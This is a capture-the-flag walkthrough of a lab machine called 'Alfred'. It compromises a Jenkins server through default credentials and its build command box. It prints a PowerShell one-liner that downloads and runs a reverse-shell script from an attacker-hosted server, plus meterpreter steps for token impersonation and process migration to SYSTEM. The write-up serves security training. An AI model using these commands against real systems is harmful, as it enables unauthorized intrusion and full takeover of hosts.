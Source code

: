 # Alfred

## 1. How many ports are open? (TCP only)
Rustscan showed 3 tcp ports that are opened

![screenshot](images/scan.png)

## 2. What is the username and password for the login panel? (in the format username:password)

Using default credentials admin:admin worked
Port 80 server doesn't have anything but 8080
has jenkins

![screenshot](images/login.png)


## 3. What services allow for execution of command
Navigate to job -> project -> configure
We see that there is a textbox that allows us to
execute any command this allows us to gain reverse shell. Download the powershell script given in the thm website and input 
`powershell iex (New-Object Net.WebClient).DownloadString('http://10.17.32.108:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.6.11.158 -Port 4444`. Before doing that you need to start a http server in the directory containing the reverse tcp ps1 file. After that we rebuild the project and now we have a reverse shell

![screenshot](images/exec.png)

![screenshot](images/revs.png)

## 4. Gaining shell
Run msfconsole and `use exploit/multi/script/web_delivery`. Then run `set exploit 2` to target powershell Then run `set payload windows/meterpreter/reverse_tcp` to change target platform to windows. Fill in your ip and the port you want to listen to then paste the generated payload into the configure textbox that allows us to run command. This should spawn a meterpreter

![screenshot](images/payload.png)

![screenshot](images/meter.png)

![screenshot](images/meter2.png)

![screenshot](images/postmeter.png)

## 5. priv escalation
Load incognito in our meterpreter shell by running `load incognito`
Next we run `load_tokens -g` to see what token is currently available. We are particularly interested in BUILTIN\Administrators as this allows us to escalate our privilege. Now we run `impersonate_token "BUILTIN\Administrators"` and we see that the uid to impersonate as administrators is `NT AUTHORITY\SYSTEM`

![screenshot](images/migrate.png)

Now we run ps to list all the process and we need to migrate to a process with `NT AUTHORITY\SYSTEM`. svchost.exe provides us with that. Run `migrate <ID of the process>` to migrate to the process. Now we should have admin privilege. Navigate to `C:\Windows\System32\config` to get root.txt 

![screenshot](images/ps.png)

![screenshot](images/root.png)

